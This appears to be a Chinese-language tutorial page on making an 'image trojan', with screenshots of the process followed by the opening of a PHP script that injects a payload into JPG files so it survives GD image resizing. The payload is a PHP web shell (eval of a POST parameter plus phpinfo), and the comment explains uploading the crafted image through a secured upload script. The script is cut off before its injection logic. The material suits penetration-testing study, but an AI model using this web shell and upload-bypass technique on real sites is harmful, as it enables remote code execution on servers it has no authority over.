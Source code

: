 制作过程：

![](images/15889455256713.png)


![](images/15889455296361.png)


![](images/15889455350388.png)


![](images/15889455394891.png)


![](images/15889455444255.png)


![](images/15889455487034.png)


图片马制作脚本


```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
    caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed
    image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    php jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
    initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $a = '$_POST[eeeeeee]';
    $miniPayload = "<?php eval($a); ?><?php echo phpinfo(); ?>";
    /*$miniPayload = "<?php echo phpinfo(); ?>";*/
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
    
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");
```